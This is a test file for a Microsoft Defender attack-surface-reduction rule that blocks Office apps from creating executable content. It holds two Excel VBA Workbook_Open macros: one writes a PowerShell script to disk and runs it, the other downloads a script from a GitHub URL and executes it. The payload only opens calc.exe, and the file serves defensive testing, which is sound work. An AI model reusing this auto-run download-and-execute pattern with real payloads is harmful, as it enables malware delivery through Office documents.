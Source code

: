 .SYNOPSIS
	Triggers rule by downloading and executing a PowerShell script that launches calc.exe
	
	Two files:
		createExecutable.xlsm --> creates a powershell script locally
		createExecutable-onlineGet --> retrieves a powershell script from URL
	
.AUTHOR
	thomas@grome.dev

.ASR RULE
	Block Office applications from creating executable content
	This rule prevents Office apps, including Word, Excel, and PowerPoint, from creating potentially malicious executable content, by blocking malicious code from being written to disk.

	Malware that abuses Office as a vector might attempt to break out of Office and save malicious components to disk. These malicious components would survive a computer reboot and persist on the system. Therefore, this rule defends against a common persistence technique.

	Intune name: Office apps/macros creating executable content

	SCCM name: Block Office applications from creating executable content

	GUID: 3b576869-a4ec-4529-8536-b80a7769e899

	Advanced hunting action type:

	AsrExecutableOfficeContentAudited
	AsrExecutableOfficeContentBlocked
	Dependencies: Microsoft Defender Antivirus, RPC

.SOURCE CODE [createExecutable.xlsm]
Sub Workbook_Open()

    ' Creates dir to download payload to
    MkDir "C:\tempPayload"
    
    ' Defines data types as object
    Dim FSO As Object
    
    ' Sets object from above
    Set FSO = CreateObject("Scripting.FileSystemObject")
    
    ' Creates powershell script
    Set FileToCreate = FSO.CreateTextFile("C:\tempPayload\calcPayload.ps1")

    ' Writes content to powershell script
    FileToCreate.Write "Invoke-Item 'C:\Windows\System32\calc.exe'"
    FileToCreate.Close
       
    ' Defines datatypes in order to execute payload
    Dim wshShell        As Object
    Dim wshShellExec    As Object
    Dim strCommand      As String
    Dim strOutput
    
    ' Executes payload by running the script via a powershell shell
    strCommand = "Powershell.exe -File ""C:\tempPayload\calcPayload.ps1"""
    Set wshShell = CreateObject("WScript.Shell")
    Set wshShellExec = wshShell.Exec(strCommand)
    strOutput = wshShellExec.StdOut.ReadAll()


End Sub

	
.SOURCE CODE [createExecutable-onlineGet]
	Sub Workbook_Open()

		' Defines datatypes as a string or object
		Dim evalURL As String
		Dim streamObject As Object
		Dim winHttpRequest As Object
		
		' Creates dir to download payload to
		MkDir "C:\tempPayload"
		
		' Executes web request
		Set winHttpRequest = CreateObject("Microsoft.XMLHTTP")

		' Downloads payload used to execute calc.exe
		evalURL = "https://raw.githubusercontent.com/gromedev/public/main/dump/calcPayload.ps1"
		winHttpRequest.Open "GET", evalURL, False
		winHttpRequest.send

		'Saves payload to c:\tempPayload\calcPayload.ps1
		If winHttpRequest.Status = 200 Then
			Set streamObject = CreateObject("ADODB.Stream")
			streamObject.Open
			streamObject.Type = 1
			streamObject.Write winHttpRequest.responseBody
			streamObject.SaveToFile "C:\tempPayload\calcPayload.ps1", 2
			
			streamObject.Close
		   End If
		   
		' Defines datatypes in order to execute payload
		Dim wshShell        As Object
		Dim wshShellExec    As Object
		Dim strCommand      As String
		Dim strOutput
		
		' Executes payload by running the script via a powershell shell
		strCommand = "Powershell.exe -File ""C:\tempPayload\calcPayload.ps1"""     'Note: Payload is stored in Authors payload. You may save the script to another server and change the URL accordingly in order to prevent changes in the code.
		Set wshShell = CreateObject("WScript.Shell")
		Set wshShellExec = wshShell.Exec(strCommand)
		strOutput = wshShellExec.StdOut.ReadAll()
		Debug.Print "StdOut:", strOutput

		strOutput = wshShellExec.StdErr.ReadAll()
			

		' Remember to remove c:\payloadTemp directory
		RmDir "C:\tempPayload"

	End Sub
